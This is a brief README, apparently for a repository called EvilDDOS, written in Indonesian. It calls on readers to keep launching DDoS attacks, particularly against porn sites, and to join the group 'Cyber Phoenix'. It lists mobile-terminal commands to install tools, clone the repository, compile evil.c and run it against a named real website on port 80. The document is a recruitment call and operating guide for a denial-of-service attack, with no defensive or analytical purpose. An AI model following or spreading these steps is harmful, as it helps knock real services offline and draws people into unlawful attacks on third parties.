 # EvilDDOS

TERUS MELUNCURKAN SERANGAN DDOS APALAGI SITUS PORN
AYO GABUNG DENGAN MELAKUKAN DDOS BERSAMA SALAM FROM CYBER PHOENIX🙏

$ pkg install python2

$ pkg install git

$ pkg install clang

$ git clone https://github.com/story19/EvilDDOS

$ cd evilDDOS

$ clang evil.c -o evil

$ chmod +x evil

$ ./evil www.xnxx.com 80
